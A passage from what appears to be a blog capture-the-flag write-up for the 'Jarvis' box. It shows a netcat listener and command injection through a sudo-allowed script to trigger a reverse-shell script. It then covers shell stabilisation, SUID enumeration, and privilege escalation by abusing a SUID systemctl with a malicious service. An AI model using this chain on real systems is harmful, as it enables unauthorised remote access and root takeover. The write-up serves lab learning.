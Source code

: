 > **Attacker Machine**:

```bash
nc -nlvp 443
```

> **Victime Machine**:

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
  $(bash /dev/shm/reverse_shell.sh)

whoami
hostname -I

script /dev/null -c bash
# [Ctrl^Z]
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

cd ~
id
groups
sudo -l
find \-perm -4000 2>/dev/null
# ./bin/systemctl
ls -l ./bin/systemctl
# -rwsr-x--- 1 root pepper 174520 Jun 29  2022 ./bin/systemctl      owner root, SUID bit
```

<br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Whenever I find that a binary has **SUID** permissions and does not belong to the list that **Linux** sets by default, I turn to **[GTFObins](https://gtfobins.github.io/gtfobins/systemctl/){:target="_blank"}** to investigate if there is a way to exploit this misconfiguration. Indeed there is a way that would allow me to **escalate privileges**, I just have to create a **"special"** service in which I'm going to inject my malicious command (or rather my **malicious script** to send a **Reverse Shell**) in the **ExecStart** attribute, which refers to the command to be executed when the service is started. Finally with `systemctl` I start the malicious service, but the connection is not persistent, so I'm going to modify the script in charge of sending the **Reverse Shell**, and use the enhanced functionality of `nc` with the **"-c"** parameter to establish the connection correctly. I can now access the last flag and finish the engagement of the box.
